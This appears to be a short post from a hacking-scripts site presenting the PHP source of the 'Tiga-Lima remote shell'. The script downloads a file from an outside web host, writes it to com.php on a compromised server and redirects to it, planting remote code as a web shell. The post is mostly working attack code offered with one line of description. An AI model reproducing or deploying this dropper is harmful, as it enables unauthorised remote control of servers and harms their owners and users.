 ```yaml
---
id: 62
title: Tiga-Lima remote shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=62
permalink: /tiga-lima-remote-shell/
categories:
  - PHP
  - Tiga-Lima
tags:
  - PHP
  - Tiga-Lima
---
```

This is a very simple script that attempts to write the contents of a remote file (presumably some sort of hack script) to a local file on the hacked server.

## Tiga-Lima remote shell source code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
$namafile="com.php";
$file = fopen($namafile ,'w+');
$fa=file_get_contents('http://www.aliggroup.com/upload/log.txt');
$write = fwrite ($file ,$fa);
header ("location:com.php");
?&gt;
</pre>